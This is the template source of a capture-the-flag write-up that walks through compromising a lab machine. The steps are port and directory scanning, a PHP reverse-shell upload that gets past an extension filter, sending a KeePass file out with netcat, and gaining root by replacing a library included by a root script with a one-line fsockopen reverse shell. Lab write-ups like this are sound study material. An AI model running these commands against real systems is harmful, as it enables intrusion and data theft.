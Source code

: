 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start by scanning the ports.")}}

{{console("nmap -T5 -p- 10.10.153.1", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 17:37 CET
Nmap scan report for 10.10.153.1
Host is up (0.077s latency).
Not shown: 55352 closed tcp ports (conn-refused), 10179 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 387.01 seconds")}}

{{text("We find 4 ports open.")}}

{{list(['22 (SSH)', '80 (HTTP)', '139 (netbios-ssn)', '445 (microsoft-ds)'])}}

{{text("I visited the web page on port 80 and was presented a login page.")}}

{{image("../../static/writeups/opacity/images/000001.jpg")}}

{{text("I didn't have any credentials, so I continued with directory enumerating.")}}

{{console("gobuster dir -u http://10.10.153.1 -w /usr/share/wordlists/dirb/common.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.153.1
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/cloud                (Status: 301) [Size: 310] [--> http://10.10.153.1/cloud/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.153.1/css/]
/server-status        (Status: 403) [Size: 276]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================")}}

{{text("<code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cloud</code> directory looked the most promising so I checked it out.")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{image("../../static/writeups/opacity/images/000002.jpg")}}

{{text("It seemed like it was a file upload type of site.")}}

{{text("This of course means uploading our own reverse shell any trying to execute it.")}}

{{text("I proceeded to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and copied the PentestMonkey reverse shell into a file.")}}

{{text("Then I hosted a web server by using python and downloaded the reverse shell by using the website.")}}

{{text("Uploading a file named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>reverse.php</code> didn't seem to work.")}}

{{text("There was probably a some type of filter in place so I modified the external URL to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://MY_IP/reverse.php .png</code>.")}}

{{text("After setting up a listener and visting the page the file was uploaded to, I got a connection.")}}

{{image("../../static/writeups/opacity/images/000003.jpg")}}

{{header("Shell as sysadmin", "shell-as-sysadmin")}}

{{text("After upgrading my shell, I began looking around the system.")}}

{{text("One interesting thing was a KeePass file inside of the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/opt</code> directory.")}}

{{text("I downloaded the file onto my machine by using:")}}

{{text("On my machine")}}

{{console("nc -nlvp 4444 > dataset.kdbx")}}

{{text("On victim machine")}}

{{console("nc MY_IP 4444 < dataset.kdbx")}}

{{text("I needed this database password in order to read it so I used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>keepas2john</code>.")}}

{{image("../../static/writeups/opacity/images/000004.jpg")}}

{{text("After getting the password, I opened this file using KeePass and got credentials to user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sysadmin</code>.")}}

{{image("../../static/writeups/opacity/images/000005.jpg")}}

{{header("Shell as root", "shell-as-root")}}

{{text("After logging in via SSH, I found a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>script.php</code> file inside of the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>scripts</code> folder.")}}

{{console("cat script.php", "<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = '/var/www/html/cloud/images';
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>")}}

{{text("It's a script for creating a backup. The file itself is not writeable so we are not able to edit it.")}}

{{text("We can notice the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>require_once('lib/backup.inc.php');</code> line calls a library from somewhere else.")}}

{{text("Let's check if the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>backup.inc.php</code> file is writeable.")}}

{{console("ls -la", "drwxr-xr-x 2 sysadmin root  4096 Jul 26  2022 .
drwxr-xr-x 3 root     root  4096 Jul  8  2022 ..
-rw-r--r-- 1 root     root  9458 Jul 26  2022 application.php
-rw-r--r-- 1 root     root   967 Jul  6  2022 backup.inc.php
-rw-r--r-- 1 root     root 24514 Jul 26  2022 bio2rdfapi.php
...")}}

{{text("It is not writeable, but the directory itself is. That means we can just swap the file with a different one that uses the same name.")}}

{{text("I moved <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>backup.inc.php</code> to my home directory and edited it so that it would give me a reverse shell.")}}

{{console("cat backup.inc.php", "$sock=fsockopen('10.9.6.6',1234);exec('bash <&3 >&3 2>&3');")}}

{{text("Then I moved it back to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>scripts/lib</code>, set up a listener and waited for a connection.")}}

{{text("After some time, I got a reverse shell as root.")}}

{{script()}}